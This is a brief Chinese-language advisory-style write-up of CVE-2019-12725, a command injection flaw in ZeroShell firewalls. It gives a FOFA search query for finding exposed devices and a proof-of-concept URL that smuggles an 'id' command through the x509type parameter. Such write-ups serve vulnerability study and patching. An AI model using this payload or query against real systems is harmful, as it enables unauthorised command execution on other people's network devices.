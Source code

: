 # ZeroShell 3.9.0 远程命令执行漏洞 CVE-2019-12725

## 漏洞描述

ZeroShell 3.9.0 存在命令执行漏洞，/cgi-bin/kerbynet 页面，x509type 参数过滤不严格，导致攻击者可执行任意命令

## 漏洞影响

> ZeroShell < 3.9.0

## FOFA

> app="Zeroshell-防火墙"

## 漏洞复现

登录页面如下

[![img](resource/ZeroShell/zm-2.png)

验证的POC为

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type=%27%0Aid%0A%27
```

![zm-1](resource/ZeroShell/zm-1.png)